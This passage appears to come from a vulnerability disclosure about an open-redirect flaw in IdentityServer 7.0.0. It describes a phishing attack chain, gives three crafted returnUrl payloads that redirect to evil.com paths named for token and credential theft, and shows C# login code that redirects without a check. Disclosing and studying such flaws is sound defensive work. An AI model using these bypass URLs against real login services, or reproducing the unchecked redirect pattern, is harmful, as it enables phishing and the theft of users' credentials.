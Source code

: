    - Vulnerable library incorrectly validates URL as "local" and "trusted"
   - Application redirects user to the malicious URL after authentication

## Proof-of-Concept Library Exploit

### Attack Vector
1. **Malicious URL Crafting**: Attacker creates a malicious URL that bypasses IdentityServer's URL validation
2. **Social Engineering**: Attacker distributes the link through phishing emails, social media, or other channels
3. **Victim Interaction**: Victim clicks the malicious link and is redirected to the IdentityServer login page
4. **Authentication Completion**: Victim completes legitimate authentication on the real IdentityServer
5. **Malicious Redirect**: IdentityServer redirects the authenticated user to the attacker's site

### Exploit Payload
```
# Example malicious URLs that bypass IdentityServer validation:
https://vulnerable-identityserver.com/Account/Login?returnUrl=//evil.com/phishing
https://vulnerable-identityserver.com/Account/Login?returnUrl=\\/\\/evil.com/steal-tokens
https://vulnerable-identityserver.com/Account/Login?returnUrl=%2F%2Fevil.com%2Fcredential-harvester
```

### Application Usage Pattern
```csharp
// Vulnerable application code in Pages/Account/Login/Index.cshtml.cs
public async Task<IActionResult> OnGet(string? returnUrl)
{
    await BuildModelAsync(returnUrl);  // returnUrl flows to vulnerable library code
    // ... authentication logic
}

private async Task BuildModelAsync(string? returnUrl)
{
    Input = new InputModel { ReturnUrl = returnUrl };
    
    // VULNERABLE CALL - Uses IdentityServer 7.0.0 vulnerable method
    var context = await _interaction.GetAuthorizationContextAsync(returnUrl);
    // The vulnerable GetAuthorizationContextAsync incorrectly validates malicious URLs as trusted
}

public async Task<IActionResult> OnPost()
{
    // VULNERABLE CALL - User input flows to vulnerable validation
    var context = await _interaction.GetAuthorizationContextAsync(Input.ReturnUrl);
    
    if (context != null)
    {
        // After successful authentication, redirects to malicious URL
        return Redirect(Input.ReturnUrl ?? "~/");  // Redirects to attacker site
    }
}
```

